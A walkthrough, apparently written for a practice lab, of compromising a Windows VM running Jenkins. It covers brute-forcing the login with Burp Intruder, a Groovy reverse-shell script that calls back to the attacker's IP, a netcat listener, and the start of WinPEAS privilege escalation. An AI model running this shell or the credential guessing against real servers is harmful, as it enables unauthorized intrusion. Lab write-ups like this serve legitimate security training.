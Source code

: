 # Butler Walkthrough

## Enumeration
First things first, create a directory called "butler" and `cd` into it:
```bash
mkdir butler && cd butler
```

Now start up both of the machines and get the IP Address for Butler by opening up `cmd` and typing `ipconfig` . It will be on the right side that says `IPv4`. Copy that and back on our attack machine do:
```bash
export IP=<IP-Address>
```
Start our `nmap` scan:
```bash
nmap -T4 -p- -A $IP -oA $IP-butler-scan
```

We see from our `nmap` scan that the ports 7680 and 8080 are open so let's check them out. 
![[nmap scan butler.png]]

Trying to connect to `telnet <IP-Address> 7680` will be "Trying" but to no avail. `netcat` will also result in the same issue. Also going to the browser on http://IP-Address:7680 will not work either because it is not a web address. We get to a Jenkins login screen on port 8080 and if we search online for default login credentials for Jenkins, we get `admin:password` as one of them. However, trying this out results in "Invalid username or password".
![[Jenkins default login invalid.png]]

So open up Burp Suite and set Foxy Proxy to intercept the request.
After submitting, you should get:
![[Burp Suite intercept.png]]

Right click and "Send to Repeater" and also do it for "Send to Intruder" (Ctrl-R, Ctrl-I for short). In Repeater, if we press the "Send" button, we get a "302 Found" and then if you press on the "Follow redirection" button, we get "401 Unauthorized".
![[Pasted image 20220304152444.png]]

We can brute force this with Repeater, but it is inefficient so jump to the Intruder tab.

Now go into the Positions tab and hit the "Clear §" button. The "§" should all be gone now in this POST request. Double click on the field where it says "admin" and hit the "Add §" button. Do the same for the password value. It should look like this:
![[Intruder on username and password.png]]

Make sure that the "Attack type" is set to "Cluster bomb":
![[Setting Attack type to Cluster bomb.png]]

Go to the "Payloads" tab and for the first Payload set (1) add these values for the username field: admin, administrator, jenkins:
![[Payload set 1.png]]

In the second payload set (2) add these values: password, jenkins, Password, Jenkins, Password1
![[Payload set 2.png]]

Now, you can start attack by pressing on the "Start attack" button:
![[creds are jenkins jenkins.png]]

Go to the Proxy tab and make sure "Intercept is off". The credentials `jenkins:jenkins` should log us in.

Now that we are logged in, you should see something similar to this page:
![[Pasted image 20220817115847.png]]

On the left hand side, there is a **Manage Jenkins** link so click on that link and it should take you to a new page.
![[Pasted image 20220817115943.png]]

Scroll to the bottom (don't pay attention to anything else) and click on the **Script Console** link.
![[Pasted image 20220817120151.png]]

It will bring you to another page where we will upload our reverse shell Groovy script. Search on Google for **jenkins exploit** and you should find a GitHub link (it should be the second link): https://github.com/gquere/pwn_jenkins
Browse to it and scroll down until you find [Reverse shell from Groovy](https://github.com/gquere/pwn_jenkins#reverse-shell-from-groovy)
Copy the script:
```bash
String host="myip";
int port=1234;
String cmd="/bin/bash";Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```

You'll need to modify the host string by using your local IP address, in this case I use my Kali VM IP address. You can find it in your terminal by typing:
```bash
ip a
```
 and looking at the `inet` section. The IP should be there. You can leave the port number unchanged.

After you have entered your IP address, go back to the script console and paste your modified reverse shell. In this case, mine look like this:
![[Pasted image 20220817121117.png]]

Before clicking on **Run**, open a new terminal tab and start up a `netcat` listener:
```bash
nc -lvnp 1234
```
![[Pasted image 20220817121304.png]]

Once that is done, go back to **Script Console**, making sure everything is correct, and click on **Run**. You should now see that the page is hanging and that is a good sign.
Go back to the `netcat` listener tab, and you should see that it has connected to the Windows machine.
![[Pasted image 20220817125215.png]]

You can try `whoami` and `hostname` to confirm that you are user `butler`. 
What we can do now is to download a Windows privilege escalaction program called **WinPEAS** from [GitHub](https://github.com/carlospolop/PEASS-ng). 
Go to the [releases](https://github.com/carlospolop/PEASS-ng/releases/tag/20220814) page and download the `winPEASx64.exe` version. Move that file from your downloads folder to a folder called `transfer` for example to make things easier. Change directory into `transfer` and list out it's contents to make sure `winPEASx64.exe` is there
